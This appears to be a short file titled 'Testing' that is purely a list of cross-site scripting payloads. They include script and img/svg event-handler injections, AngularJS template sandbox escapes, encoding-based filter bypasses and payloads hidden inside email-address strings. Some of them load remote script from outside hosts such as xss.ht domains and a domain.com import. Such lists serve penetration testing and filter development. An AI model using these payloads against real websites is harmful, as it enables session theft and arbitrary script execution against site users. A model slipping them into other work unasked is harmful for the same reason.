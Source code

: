 # Testing
"/>&lt;script>alert(1)&lt;/script>"/>

{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\u002ex)alert(window\u002ex=1)')+eval(y)+\"'");}}}}

<script>alert(1)%0d%0a-->%09</script

' accesskey=X onclick=alert(1) '

' onmouseover=alert() '

<img src=x onmouseover=confirm()>

‘%uff1cscript%uff1ealert(‘XSS’);%uff1c/script%uff1e’
#<img src=x onerror=alert(0)>

&lt;script&gt;alert(&#x27;xss&#x27;);&lt;/script&gt;

{{[].pop.constructor&#40'alert\u00281\u0029'&#41&#40&#41}}

'"; alert("XSS attack!"); //';

<img src=x onerror=alert(1)>
'-alert(1)-';"-alert(2)-"//"><svg/onload=alert(3)>
<img src=totallyfake onerror=alert(1);//
<img src=x onerror=import(‘//domain.com/‘);//
'"onclick=(co\u006efirm)?.`0`><sVg/i="${{7*7}}"oNload=" 0>(pro\u006dpt)`1`"></svG/</sTyle/</scripT/</textArea/</iFrame/</noScript/</seLect/--><h1><iMg/srC/onerror=alert`2`>%22%3E%3CSvg/onload=confirm`3`//<Script/src=//ChiragXSS.xSs.ht></scripT>


“><svg/onload=confirm(1)>”@gmail.com
<svg onload=location='javascript:alert(1)'>
"<script>alert(1)</script>"@gmail.com
"><--<img+src= "><svg/onload+alert(document.domain)>> --!>
'"></title></textarea></script></style></noscript><script src=abc.xss.ht></script>

test+(<script>alert(1)</script>)@gmail.com
"\/><img%20s+src+c=x%20on+onerror+%20="alert(1)"\>
"><svg+svg+svg\/\/On+OnLoAd=confirm(1)>



